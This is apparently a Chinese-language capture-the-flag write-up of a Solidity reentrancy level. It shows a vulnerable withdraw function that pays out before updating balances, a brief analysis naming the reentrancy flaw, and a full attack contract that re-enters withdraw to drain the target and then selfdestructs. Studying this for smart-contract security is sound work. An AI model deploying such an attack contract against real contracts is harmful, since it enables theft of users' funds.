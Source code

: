 ```solidity

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

### 分析

典型的重入攻击，单函数重入。不符合 CEI 编码规范。

### 攻击

```
//SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;


contract Hack{
    Reentrance private immutable target;

    constructor(address payable _target) public {
        target = Reentrance(_target);
    }

    function attack() public payable {
        target.donate{value: 1e15}(address(this));
        target.withdraw(1e15);
        require(address(target).balance > 0,"balance > 0");
        selfdestruct(payable(msg.sender));
    }

    receive() external payable {
        uint amount = min(1e15,address(target).balance);
        if(amount > 0){
            target.withdraw(amount);
        }   
    }

    function min(uint x,uint y) private pure returns(uint){
        return x > y ? y : x;
    }
}

```
